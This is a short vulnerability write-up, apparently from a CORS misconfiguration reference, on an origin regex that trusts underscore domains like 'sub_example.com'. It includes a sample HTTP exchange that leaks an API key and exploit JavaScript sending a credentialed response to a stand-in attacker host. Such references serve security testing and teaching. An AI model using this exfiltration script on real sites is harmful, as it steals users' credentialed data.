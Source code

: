 # Underscore Bypass

## Description 
The regex used for origin verification contains an underscore (`_`) character.

`wwww.example.com` trusts `www.sub_example.com`, which could be an attacker's domain.

**Severity**: High

## Exploit 
If the target is `sub.example.com`, make requests from `sub_example.com`.

### Example
**Vulnerable Implementation** 
```http
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://sub_example.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://sub_example.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

**Exploit**  
This exploit requires that the respective JS script is hosted at `sub_example.com`
```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```
